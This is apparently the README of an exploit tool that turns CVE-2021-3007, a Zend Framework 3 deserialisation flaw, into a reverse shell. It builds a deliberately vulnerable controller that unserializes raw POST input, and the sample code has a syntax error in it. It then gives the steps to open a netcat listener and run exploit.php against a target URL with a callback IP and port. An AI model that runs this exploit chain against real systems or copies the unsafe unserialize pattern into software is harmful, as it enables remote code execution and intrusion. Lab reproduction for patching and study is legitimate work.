 # deserial-killer-zf3

Zend Framework 3 deserialisation reverse shell based on CVE-2021-3007 and Ling-Yizhous PoC at https://github.com/Ling-Yizhou/zendframework3-/blob/main/zend%20framework3%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20rce.md

## Test Environment

composer create-project zendframework/skeleton-application

Update module/Application/src/Controller/IndexController.php to something like this:

```php
<?php
/**
 * @link      http://github.com/zendframework/ZendSkeletonApplication for the canonical source repository
 * @copyright Copyright (c) 2005-2016 Zend Technologies USA Inc. (http://www.zend.com)
 * @license   http://framework.zend.com/license/new-bsd New BSD License
 */

// curl -X POST <your url> -d 'user=O:4:"User":1:{s:4:"name";s:3:"asd";}'

namespace{

  class User{
    public $name;
  }
}

namespace Application\Controller{

  use Zend\Mvc\Controller\AbstractActionController;
  use Zend\View\Model\ViewModel;

  class IndexController extends AbstractActionController
  {
      public function indexAction()
          $user=unserialize($this->params()->fromPost('user'));
          die("hello {$user->name}");
          return new ViewModel();
      }
   }
}
```
You can test it by running the curl commented in the code fragment above and you will get the message "hello asd".

## Exploitation
* Set up a netcat listener(e.g. nc -vlp 8888)
* Run exploit.php either with exec permissions or via php php with the following command line:
```bash
./exploit.php http://url.to.attack netcat-ip-address  netcat-port post-parameter-to-attack 
```
E.G. With the demo running on localhost (where the post parameter is user)
```sh
./exploit.php http://localhost:8080 127.0.0.1 8888 user
```

